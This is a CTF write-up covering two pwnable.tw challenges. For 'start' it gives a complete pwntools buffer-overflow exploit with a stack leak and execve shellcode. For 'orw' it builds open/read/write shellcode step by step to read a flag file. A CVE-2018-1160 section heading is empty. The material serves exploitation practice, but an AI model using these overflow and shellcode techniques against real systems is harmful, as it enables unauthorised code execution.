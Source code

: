 # pwn.tw

## 01 start
checksec, RWX segment existed. maybe shellcode can be used.

a ASM program, calling some sys_call, like `sys_write`/`sys_read`.
and reading process is a BOF vulnerability, length of buffer is enough for a simple ROP.
hijack the second argu of `sys_write` to print out the stack info, then ret2shellcode.

```py
#!/bin/python3

from pwn import *

# io = process("./start")
# gdb.attach(io, 'b*0x08048087\nc')
io = remote("chall.pwnable.tw", 10000)

payload = b''
payload += b'A' *20
payload += p32(0x08048087)

io.sendafter(b'CTF:', payload)

stack_addr = u32(io.recv(4))
buf_addr = stack_addr - 4

shellcode = b"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += b"\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += b"\x0b\xcd\x80"

payload2 = b''
payload2 += b'A'*20
payload2 += p32(buf_addr + 20 +4 )
payload2 += shellcode

io.sendline(payload2)

io.interactive()
```

## 02 orw

a shellcode challenage, but syscalls we can use is limited to open/read/write.

we can not launch a shell directly, but these three calls are enough to read a flag with known path (which is provided by the hint).

we will open the flag and read it to buffer, and write it to stdout.

man syscalls and `/usr/include/x86_64-linux-gnu/asm/unistd_32.h`:
```
int open(const char *pathname, int flags);		#define __NR_read 3
ssize_t read(int fd, void *buf, size_t count);		#define __NR_open 5
ssize_t write(int fd, const void *buf, size_t count);	#define __NR_write 4

path is `/home/orw/flag`, 14 bytes.
```
- pwntools
	- pwnlib.shellcraft
		```py
		shellcraft.i386.pushstr('/home/orw/flag')
		shellcraft.i386.linux.syscall('SYS_open', 'esp')
		shellcraft.i386.linux.syscall('SYS_read', 'eax', 'esp', 0x50)
		shellcraft.i386.linux.syscall('SYS_write', 1, 'esp', 0x50)
		```
		that is:	
		```
		push '/home/orw/flag\x00'
		call open('esp')
		call read('eax', 'esp', 0x50)
			// eax is previous call's ret value, which is opened fd.
		call write(1, 'esp', 0x50)
		```
- asm
	- argu:
		- eax: calling num
		- ebx/ecx/edx/esi/edi: argu1/2/3/4/5
	- crafting:
		- push '/home/orw/flag\x00'
		```
		'///h' <-esp
		'ome/'
		'orw/'
		'flag'
		'\x00'
		```
		crafting the asm code:
		
		```py
		shellcode = ''
		shellcode += 'xor eax, eax\n push eax\n'
		
		temp = hex(u32(b'flag'))
		shellcode += 'push '+ temp + '\n'

		temp = hex(u32(b'orw/'))
		shellcode += 'push '+ temp + '\n'
		
		temp = hex(u32(b'ome/'))
		shellcode += 'push '+ temp + '\n'
		
		temp = hex(u32(b'///h'))
		shellcode += 'push '+ temp + '\n'
		```

		- call `open('esp')`
			- eax: 5
			- ebx: buf(esp)
			- call
		
		```py
		shellcode += 'push 0x5\n pop eax\n'
		shellcode += 'mov ebx, esp\n'
		shellcode += 'int 0x80\n'
		```
		
		- call `read('eax', 'esp', 0x50)`
			- eax: 3
			- ebx: eax(fd)
			- ecx: esp(buf)
			- edx: 0x50(len)
		
		```py
		shellcode += 'mov ebx, eax\n'
		shellcode += 'push 0x3\n pop eax\n'
		shellcode += 'mov ecx, esp\n'
		shellcode += 'push 0x50\n pop edx'
		shellcode += 'int 0x80\n'
		```

		... omitted...

## 03 CVE-2018-1160

